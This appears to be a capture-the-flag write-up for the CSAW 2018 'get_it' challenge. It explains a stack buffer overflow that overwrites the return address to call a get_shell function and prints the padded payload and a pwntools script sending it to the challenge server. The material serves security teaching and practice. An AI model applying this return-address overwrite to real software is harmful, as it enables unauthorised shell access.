



# get_it

This is an easy, 50-point binary exploitation problem from CSAW2018.

## Reconnaissance

For this problem it looks like I need to call the `get_shell` function, probably by overwriting the return address.



Here's the stack when I have just read in some input:



The return address is at `0x7ffc2ae35b68` in this case. So here's the exploit string:

`"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHAAAABBBB\xb6\x05\x40\x00\x00\x00\x00\x00\n"`

And the solve:


Here's the code:
```
### exploit-get_it.py

from pwn import *
from time import sleep

local = False
if local:
    p = process('./get_it')
else:
    p = remote('pwn.chal.csaw.io', 9001)

sleep(1)
p.send("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHAAAABBBB\xb6\x05\x40\x00\x00\x00\x00\x00\n")
p.interactive()
```
